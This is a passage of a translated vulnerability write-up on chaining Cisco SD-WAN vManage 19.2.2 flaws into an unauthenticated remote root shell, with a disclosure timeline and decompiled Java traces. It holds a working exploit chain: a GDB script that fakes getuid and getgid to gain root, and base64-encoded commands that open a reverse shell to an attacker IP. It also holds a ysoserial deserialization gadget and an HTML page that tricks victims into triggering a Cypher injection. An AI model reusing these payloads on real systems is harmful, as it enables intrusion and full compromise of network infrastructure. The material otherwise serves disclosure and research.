我假设“confd_cli”程序将从登录用户那里收集的用户 ID 和组 ID 传递给“cmdptywrapper”应用程序。

我的第一次尝试是直接运行“cmdptywrapper”并为其提供“-g 0 -u 0”，但是失败了。似乎在这个过程中的某个地方创建了一个文件描述符(-i 1015)，我不能伪造它。

正如 synacktiv 的博客中提到的,“confd_cli”程序不支持命令行参数，但我可以用调试器影响它，幸运的是系统中包含了 GDB。

我创建了一个 GDB 脚本，其中我强制 API“getuid”和“getgid”返回 0。由于我已经通过反序列化 RCE 拥有了“vmanage”权限，所以我有权限直接读取“/etc/confd/confd_ipc_secret”。

root.gdb:

```
set environment USER=root
define root
   finish
   set $rax=0
   continue
end
break getuid
commands
   root
end
break getgid
commands
   root
end
run
```

控制台输出:

```
vmanage:/tmp$ gdb -x root.gdb /usr/bin/confd_cli
GNU gdb (GDB) 8.0.1
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <[http://gnu.org/licenses/gpl.html](http://gnu.org/licenses/gpl.html)>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-poky-linux".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<[http://www.gnu.org/software/gdb/bugs/](http://www.gnu.org/software/gdb/bugs/)>.
Find the GDB manual and other documentation resources online at:
<[http://www.gnu.org/software/gdb/documentation/](http://www.gnu.org/software/gdb/documentation/)>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from /usr/bin/confd_cli...(no debugging symbols found)...done.
Breakpoint 1 at 0x400f40
Breakpoint 2 at 0x401000Breakpoint 1, getuid () at ../sysdeps/unix/syscall-template.S:59
59 T_PSEUDO_NOERRNO (SYSCALL_SYMBOL, SYSCALL_NAME, SYSCALL_NARGS)
0x0000000000401689 in ?? ()Breakpoint 2, getgid () at ../sysdeps/unix/syscall-template.S:59
59 T_PSEUDO_NOERRNO (SYSCALL_SYMBOL, SYSCALL_NAME, SYSCALL_NARGS)
0x0000000000401694 in ?? ()Breakpoint 1, getuid () at ../sysdeps/unix/syscall-template.S:59
59 T_PSEUDO_NOERRNO (SYSCALL_SYMBOL, SYSCALL_NAME, SYSCALL_NARGS)
0x0000000000401871 in ?? ()
Welcome to Viptela CLI
root connected from 127.0.0.1 using console on vmanage
vmanage# vshell
bash-4.4# whoami ; id
root
uid=0(root) gid=0(root) groups=0(root)
bash-4.4#
```

# 第四部分——将所有内容放在一起

如果 Cisco SD-WAN vManage 系统设置为使用 SAML SSO，那么通过将前面几节中的信息链接起来，未经验证的攻击者就可以在该系统上获得远程根外壳。



步骤如下:

**1。**创建运行 GDB 根脚本并调用 vShell 的命令:

```
echo -ne 'c2V0IGVudmlyb25tZW50IFVTRVI9cm9vdApkZWZpbmUgcm9vdAogICBmaW5pc2gKICAgc2V0ICRyYXg9MAogICBjb250aW51ZQplbmQKYnJlYWsgZ2V0dWlkCmNvbW1hbmRzCiAgIHJvb3QKZW5kCmJyZWFrIGdldGdpZApjb21tYW5kcwogICByb290CmVuZApydW4gPCAvdG1wL2ZvbwpxdWl0Cg==' | base64 -d > /tmp/root ; echo 'dnNoZWxsCmJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMjAuMTIwLjIwMC8zMTMzNyAwPiYxCg==' | base64 -d > /tmp/foo ; gdb --batch --command=/tmp/root /usr/bin/confd_cli
```

第一个 echo 命令创建 GDB 根脚本，如第 3 节所述。第二个 echo 命令调用 vShell 并执行一个反向 Shell 返回到攻击者的机器。

**2。**将“寻根”命令放入 Java 小工具中:

```
java -jar ~/Tools/ysoserial-modified/target/ysoserial-modified-1.jar CommonsCollections5 bash "echo -ne 'c2V0IGVudmlyb25tZW50IFVTRVI9cm9vdApkZWZpbmUgcm9vdAogICBmaW5pc2gKICAgc2V0ICRyYXg9MAogICBjb250aW51ZQplbmQKYnJlYWsgZ2V0dWlkCmNvbW1hbmRzCiAgIHJvb3QKZW5kCmJyZWFrIGdldGdpZApjb21tYW5kcwogICByb290CmVuZApydW4gPCAvdG1wL2ZvbwpxdWl0Cg==' | base64 -d > /tmp/root ; echo 'dnNoZWxsCmJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMjAuMTIwLjIwMC8zMTMzNyAwPiYxCg==' | base64 -d > /tmp/foo ; gdb --batch --command=/tmp/root /usr/bin/confd_cli" | xxd -p | tr -d '\n'WARNING: An illegal reflective access operation has occurredWARNING: Illegal reflective access by ysoserial.payloads.CommonsCollections5 (file:/Tools/ysoserial-modified/target/ysoserial-modified-1.jar) to field javax.management.BadAttributeValueExpException.valWARNING: Please consider reporting this to the maintainers of ysoserial.payloads.CommonsCollections5WARNING: Use --illegal-access=warn to enable warnings of further illegal reflective access operationsWARNING: All illegal access operations will be denied in a future releaseaced ... snipped ... 7878
```

**3。**创建一个覆盖所有“samlMessage”的 cypher 注入向量，并通过 HTML 文档中的图像标签触发注入:

```
<html>
<head><title>Cisco SD-WAN vManage 19.2.2 Remote Root Shell PoC</title></head>
<script src="text/javascript">
   function exploit() {
      var payload = new Image(1,1);
      payload.src = 'https://<target>/dataservice/device/counters?deviceId=-1%27%20return%200%20as%20%60system-ip%60%20Union%20Match(s)%20set%20s%2esamlMessage%3d%22aced00057372002e6a617661782e6d616e6167656d656e742e42616441747472696275746556616c7565457870457863657074696f6ed4e7daab632d46400200014c000376616c7400124c6a6176612f6c616e672f4f626a6563743b787200136a6176612e6c616e672e457863657074696f6ed0fd1f3e1a3b1cc4020000787200136a6176612e6c616e672e5468726f7761626c65d5c635273977b8cb0300044c000563617573657400154c6a6176612f6c616e672f5468726f7761626c653b4c000d64657461696c4d6573736167657400124c6a6176612f6c616e672f537472696e673b5b000a737461636b547261636574001e5b4c6a6176612f6c616e672f537461636b5472616365456c656d656e743b4c001473757070726573736564457863657074696f6e737400104c6a6176612f7574696c2f4c6973743b787071007e0008707572001e5b4c6a6176612e6c616e672e537461636b5472616365456c656d656e743b02462a3c3cfd22390200007870000000037372001b6a6176612e6c616e672e537461636b5472616365456c656d656e746109c59a2636dd85020008420006666f726d617449000a6c696e654e756d6265724c000f636c6173734c6f616465724e616d6571007e00054c000e6465636c6172696e67436c61737371007e00054c000866696c654e616d6571007e00054c000a6d6574686f644e616d6571007e00054c000a6d6f64756c654e616d6571007e00054c000d6d6f64756c6556657273696f6e71007e00057870010000004a74000361707074002679736f73657269616c2e7061796c6f6164732e436f6d6d6f6e73436f6c6c656374696f6e7335740018436f6d6d6f6e73436f6c6c656374696f6e73352e6a6176617400096765744f626a65637470707371007e000b010000002c71007e000d71007e000e71007e000f71007e001070707371007e000b010000003171007e000d74001979736f73657269616c2e47656e65726174655061796c6f616474001447656e65726174655061796c6f61642e6a6176617400046d61696e70707372001f6a6176612e7574696c2e436f6c6c656374696f6e7324456d7074794c6973747ab817b43ca79ede020000787078737200346f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6b657976616c75652e546965644d6170456e7472798aadd29b39c11fdb0200024c00036b657971007e00014c00036d617074000f4c6a6176612f7574696c2f4d61703b7870740003666f6f7372002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d61702e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f726d65723bbd562af1d83418990200007870000000057372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e7471007e00017870767200116a6176612e6c616e672e52756e74696d65000000000000000000000078707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d6571007e00055b000b69506172616d54797065737400125b4c6a6176612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000274000a67657452756e74696d65757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a990200007870000000007400096765744d6574686f647571007e002f00000002767200106a6176612e6c616e672e537472696e67a0f0a4387a3bb34202000078707671007e002f7371007e00287571007e002c00000002707571007e002c00000000740006696e766f6b657571007e002f00000002767200106a6176612e6c616e672e4f626a656374000000000000000000000078707671007e002c7371007e00287571007e002c00000001757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b470200007870000000037400092f62696e2f626173687400032d63707401a16563686f202d6e6520276332563049475675646d6c79623235745a5735304946565452564939636d39766441706b5a575a70626d5567636d397664416f674943426d615735706332674b494341676332563049435279595867394d416f674943426a62323530615735315a51706c626d514b596e4a6c595773675a32563064576c6b436d4e7662573168626d527a4369416749484a766233514b5a57356b436d4a795a5746724947646c644764705a41706a623231745957356b63776f674943427962323930436d56755a4170796457346750434176644731774c325a766277707864576c3043673d3d27207c20626173653634202d64203e202f746d702f726f6f74203b206563686f2027646e4e6f5a577873436d4a68633267674c576b67506959674c32526c64693930593341764d5441754d6a41754d5449774c6a49774d43387a4d544d7a4e7941775069597843673d3d27207c20626173653634202d64203e202f746d702f666f6f203b20676462202d2d6261746368202d2d636f6d6d616e643d2f746d702f726f6f74202f7573722f62696e2f636f6e66645f636c69740004657865637571007e002f000000017671007e00407371007e0024737200116a6176612e6c616e672e496e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b020000787000000001737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f40000000000000770800000010000000007878%22%20return%20%27Pwned%27%20as%20%60system-ip%60%2f%2f';
      document.body.appendChild(payload);
   }
   window.onload = function() {
      setInterval(exploit, 1);
   }
</script>
<body>
</body>
</html>
```

**4。**诱骗通过身份验证的受害者访问在步骤 3 中制作的恶意 HTML 文档。

**5。**等待另一个受害者验证到 vManage 产品，这将触发反序列化漏洞并产生根外壳。

**6。**享受根壳。

```
attacker:~$ nc -nlvvp 31337
listening on [any] 31337 ...
connect to [10.20.120.200] from (UNKNOWN) [<redacted>] 52168
bash: cannot set terminal process group (14640): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4# id ; whoami
id ; whoami
uid=0(root) gid=0(root) groups=0(root)
root
bash-4.4# uname -a
uname -a
Linux vmanage 3.10.62-ltsi #1 SMP PREEMPT Fri Nov 8 23:49:05 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
bash-4.4#
```

# 时间表

**2020 年 2 月 19 日:**漏洞详情发送至 psirt@cisco.com

**2020 年 3 月 13 日:**思科 PSIRT 回应称，调查结果是已知问题

**2020 年 4 月 2 日:**漏洞详情发送至[psirt@cisco.com](mailto:psirt@cisco.com)

**2020 年 4 月 10 日:**思科 PSIRT 承认调查结果，并做出如下分配:

*****cscvt 65026(*CVE-2020–3437):**赛佛注射液**

*****cscvt 70892*(CVE-2020–3387):**Java 反序列化**

*****cscvt 71038*(CVE-2020–3406):**储存的 XSS**

*****cscvt 72764*(CVE-2020–3381):**文件上传目录遍历**

*****cscvt 72792*(CVE-2020–3405):**XML 外部实体**

*****cscvt 74757*(CVE-2020–3401):**文件下载目录遍历**

****2020 年 4 月 15 日:**同意 90 天的披露**

****2020 年 7 月 15 日:**安全 advisories⁸和 SD-WAN 软件版本 19.2.3 发布**

# **参考**

**[1][https://www . synacktiv . com/posts/pentest/pentesting-Cisco-SD-wan-part-1-attaking-v manage . html](https://www.synacktiv.com/posts/pentest/pentesting-cisco-sd-wan-part-1-attacking-vmanage.html)**

**[https://blog.scrt.ch/2014/05/09/neo4j-enter-the-graphdb/](https://blog.scrt.ch/2014/05/09/neo4j-enter-the-graphdb/)**

**[3][https://side channel . tempest si . com/the-cypher-injection-saga-9698d 19 bed 4](https://sidechannel.tempestsi.com/the-cypher-injection-saga-9698d19bed4)**

**[4][https://neo4j . com/docs/cypher-manual/current/clauses/load-CSV/](https://neo4j.com/docs/cypher-manual/current/clauses/load-csv/)**

**[5][https://honoki . net/2018/12/12/from-blind-xxe-to-root-level-file-read-access/](https://honoki.net/2018/12/12/from-blind-xxe-to-root-level-file-read-access/)**

**[6][https://SD wan-docs . Cisco . com/Product _ Documentation/Software _ Features/Release _ 18.4/Security/02 Configuring _ Security _ Parameters/Configuring _ Single _ Sign-On _ Using _ Okta](https://sdwan-docs.cisco.com/Product_Documentation/Software_Features/Release_18.4/Security/02Configuring_Security_Parameters/Configuring_Single_Sign-On_Using_Okta)**

**[7][https://gravity . com/blog/how-SAML-authentic ation-works/](https://gravitational.com/blog/how-saml-authentication-works/)**

**[8][https://tools . Cisco . com/security/center/publication listing . x？product = Cisco&title = v manage&last _ published = 2020% 20 jul&sort =-day _ sir # ~漏洞](https://tools.cisco.com/security/center/publicationListing.x?product=Cisco&title=vManage&last_published=2020%20Jul&sort=-day_sir#~Vulnerabilities)**

# **附录一**

## ****序列化代码追踪****

```
**com/viptela/vmanage/server/sso/saml/SAMLLoginServlet.class - doGet() ::**public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
   ... snipped ...
   ***this.commence(request, response);***
   ... snipped ...public void commence(HttpServletRequest request, HttpServletResponse response) throws Exception {
   try {
      SAMLMessageContext context = this.contextProvider.getLocalAndPeerEntity(request, response);
      ***this.initializeSSO(context);***
   ... snipped ...private void initializeSSO(SAMLMessageContext context)
   throws MetadataProviderException, SAMLException, MessageEncodingException, IOException {
   WebSSOProfileOptions options = new WebSSOProfileOptions();
   log.debug("Processing SSO using WebSSO profile");
   ***this.webSSOprofile.sendAuthenticationRequest(context, options);***
   SAMLUtil.samlLog("AuthNRequest", "SUCCESS", context);
}**com/viptela/vmanage/server/sso/saml/websso/WebSSOProfileImp - sendAuthenticationRequest() ::**public void sendAuthenticationRequest(SAMLMessageContext context, WebSSOProfileOptions options)
throws SAMLException, MetadataProviderException, MessageEncodingException, IOException {
   if (!SPSSODescriptor.DEFAULT_ELEMENT_NAME.equals(context.getLocalEntityRole())) {
      throw new SAMLException("WebSSO can only be initialized for local SP, but localEntityRole is: " +
      context.getLocalEntityRole());
   } else {
      SPSSODescriptor spDescriptor = (SPSSODescriptor) context.getLocalEntityRoleMetadata();
      IDPSSODescriptor idpssoDescriptor = (IDPSSODescriptor) context.getPeerEntityRoleMetadata();
      ExtendedMetadata idpExtendedMetadata = context.getPeerExtendedMetadata();
      if (spDescriptor != null && idpssoDescriptor != null && idpExtendedMetadata != null) {
         SingleSignOnService ssoService = this.getSingleSignOnService(options, idpssoDescriptor, spDescriptor);
         AssertionConsumerService consumerService = this.getAssertionConsumerService(options, idpssoDescriptor, spDescriptor);
        ** *AuthnRequest authRequest = this.getAuthnRequest(context, options, consumerService, ssoService);***
         context.setCommunicationProfileId(this.getProfileIdentifier());
         context.setOutboundMessage(authRequest);
         context.setOutboundSAMLMessage(authRequest);
         context.setPeerEntityEndpoint(ssoService);
         context.setPeerEntityRoleMetadata(idpssoDescriptor);
         context.setPeerExtendedMetadata(idpExtendedMetadata);
         if (options.getRelayState() != null) {
            context.setRelayState(context.getRelayState());
         }boolean sign = spDescriptor.isAuthnRequestsSigned() || idpssoDescriptor.getWantAuthnRequestsSigned();
       this.sendMessage(context, sign);
       SAMLMessageStorage messageStorage = context.getMessageStorage();
       if (messageStorage != null) {
          if (DeviceCommInfoLog.isSsoSamlLogEnabled()) {
             this.log.info("Storing message request: {}", authRequest.getID());
          }***messageStorage.storeMessage(authRequest.getID(), authRequest);***
     }} else {
   throw new SAMLException(
    "SPSSODescriptor, IDPSSODescriptor or IDPExtendedMetadata are not present in the SAMLContext");
  }
 }
}**com/viptela/vmanage/server/sso/storage/HttpSessionStorage.class - storeMessage() ::**public class HttpSessionStorage implements SAMLMessageStorage {
   ... snipped ...
   public void storeMessage(String messageID, XMLObject message) throws IOException, SAMLException {
      if (DeviceCommInfoLog.isSsoSamlLogEnabled()) {
         this.log.info("Storing message {} to session {}", messageID, this.session.getId());
      }***SAMLObject samlObject = new SAMLObject(message);
      this.samlStorageDAO.storeMessage(this.session.getId(), messageID, samlObject);***
      Hashtable<String, SAMLObject<XMLObject>> messages = this.getMessages();
      messages.put(messageID, new SAMLObject(message));
      this.updateSession(messages);
   }
   ... snipped ...
}**com/viptela/vmanage/server/sso/storage/SAMLStorageDAO.class – storeMessage() ::**public void storeMessage(String sessionId, String messageId, SAMLObject samlObject) throws SAMLException, IOException {
   ByteArrayOutputStream bos = new ByteArrayOutputStream();
   ObjectOutputStream out = null;
   try {
      ***out = new ObjectOutputStream(bos);
      out.writeObject(samlObject);
      out.close();***
   ... snipped ...
 ** *byte[] samlMessage = bos.toByteArray();***
   SAMLStorage store = new SAMLStorage(sessionId, messageId, samlMessage);
   HashMap storeMap = new HashMap();
   storeMap.put("messageId", store.getMessageId());
 ** *storeMap.put("samlMessage", HexConverter.convertToHexString(store.getMessage()));***
   storeMap.put("sessionId", store.getSessionId());
   ... snipped ...
   VGraphDataStore graphDataStore = this.databaseManager.getGraphDataStore();
   ... snipped ...
   ***graphDataStore.addVertex("class:samlStorageNode", storeMap);***
   ... snipped ...
```

## **反序列化代码跟踪**

```
**com/viptela/server/sso/saml/SAMLProcessingFilter.class - doFilter() ::**[@WebFilter](http://twitter.com/WebFilter)(filterName = "SAMLProcessingFilter", urlPatterns = {"/samlLoginResponse"})
public class SAMLProcessingFilter implements Filter {
   ... snipped ...
   public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain)
   throws IOException {
      HttpServletRequest request = (HttpServletRequest) servletRequest;
      HttpServletResponse response = (HttpServletResponse) servletResponse;
      ... snipped ...
      SAMLMessageContext context = this.contextProvider.getLocalEntity(request, response);
      context = this.samlProcessor.retrieveMessage(context);
      ... snipped ...
      SAMLAuthenticationProvider authProvider = this.tenantComponent.samlAuthenticationProvider();
      authProvider.setConsumer(consumer);
      authProvider.afterPropertiesSet();try {
 ***Map<String, Set<String>> userRoleMap = authProvider.authenticate(context)***
      ... snipped ...**com/viptela/server/sso/saml/SAMLAuthenticationProvider.class - authenticate() ::**public Map<String, Set<String>> authenticate(SAMLMessageContext context) throws Exception {
   if (context == null) {
      throw new AuthenticationException("SAML message context is not available in the authentication token");
   } else {
      SAMLCredential authenticationCredential = null;
      HashMap userRoleMap = new HashMap();try {
         if (!"urn:oasis:names:tc:SAML:2.0:profiles:SSO:browser".equals(context.getCommunicationProfileId())) {
     throw new SAMLException("Unsupported profile encountered in the context " + context.getCommunicationProfileId());
      }***authenticationCredential = this.consumer.processAuthenticationResponse(context);*****com/viptela/server/sso/saml/websso/WebSSOProfileConsumerImpl.class - processAuthenticationResponse() ::**public SAMLCredential processAuthenticationResponse(SAMLMessageContext context) throws SAMLException, SecurityException, ValidationException, DecryptionException, IOException, ClassNotFoundException {
   AuthnRequest request = null;
   SAMLObject message = context.getInboundSAMLMessage();
   if (!(message instanceof Response)) {
      throw new SAMLException("Message is not of a Response object type");
   } else {
      Response response = (Response) message;
      ... snipped ...
      } else {
         HttpSessionStorage messageStorage = (HttpSessionStorage) context.getMessageStorage();
         String messageID = response.getInResponseTo();
         if (messageStorage != null && messageID != null) {
 ***XMLObject xmlObject = messageStorage.retrieveMessage(messageID);*****com/viptela/server/sso/saml/storage/HttpSessionStorage.class - retrieveMessage() ::**public XMLObject retrieveMessage(String messageID) throws SAMLException, IOException, ClassNotFoundException {
  ** *SAMLObject<XMLObject> o = this.samlStorageDAO.retrieveMessage(this.session.getId(), messageID);***
   Hashtable<String, SAMLObject<XMLObject>> messages = this.getMessages();
   if (o == null) {
      this.log.info("Message {} not found in session {}", messageID, this.session.getId());
      return null;
   } else {
      this.log.info("Message {} found in session {}, clearing", messageID, this.session.getId());
      messages.clear();
      this.samlStorageDAO.deleteMessage(this.session.getId(), messageID);
      this.updateSession(messages);
      return o.getObject();
   }
}**com/viptela/server/sso/saml/storage/SAMLStorageDAO.class - retrieveMessage() ::**public SAMLObject<XMLObject> retrieveMessage(String sessionId, String messageId)
   ... snipped ...
   ***byte[] samlObjectByteArray = HexConverter.convertFromHex((String) vertex.getProperty("samlMessage"));
   ByteArrayInputStream samlMsgByteArrayStream = new ByteArrayInputStream(samlObjectByteArray);
   ObjectInputStream samlMsgObjInputStream = new ObjectInputStream(samlMsgByteArrayStream);***
   Throwable var12 = null;try {
      ***samlObject = (SAMLObject) samlMsgObjInputStream.readObject();***
   } catch (Throwable var37) { 
   ... snipped ...
```